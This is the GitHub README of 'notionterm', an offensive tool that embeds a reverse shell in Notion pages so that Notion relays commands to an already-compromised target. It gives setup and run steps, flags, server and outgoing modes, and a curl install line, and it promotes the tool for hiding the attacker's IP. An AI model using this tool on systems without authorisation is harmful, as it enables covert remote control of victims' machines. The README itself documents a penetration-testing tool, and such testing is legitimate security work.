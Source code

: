 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>
</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>

</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication between the target and notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion: [Page template](https://fluff-grade-468.notion.site/notionterm-template-19dc9d0bbae04f40b56c475f8cd79607)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm
```

Configuration can be made using:
- Flags
- Configuration table in notion page

You can choose between:
*    `-button-url` string
        override button url (useful if notionterm service is behind a proxy)
*  `-delay` int
        delay between each api call (default 500)
*  `-p` string
        specify target listening port (HTTP traffic)
 * `-serve`
        use notionterm in server mode .i.e wait for request specifying the notion page url to add terminal
*  `-shell` string
        shell runtime ("sh,bash and cmd.exe") (default "sh")

#### Server mode
To quickly obtain terminal in any notion page you can use the server mode (Requirement: *integration w/ write access to the page*)

**First**, Launch notionterm on target with server mode enable:
```shell
notionterm -server [flags]
```
**Then**, when/where you want to get a terminal in your notion page create an embed block with url containing the page id *(`CTRL+L`to get it)*: `https://[TARGET_URL]/notionterm?url=[PAGE_ID]`.

Wait..

**And that's all!**

### Outgoing mode
**+**: only target -> notion page flux *(.i.e No need to have a HTTP server reachable on target)*
```shell
notionterm -outgoing [flags]
```
Launch notionterm and immediatly request notion page to retrieve command to execute (do not wait the button to be clicked).



## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
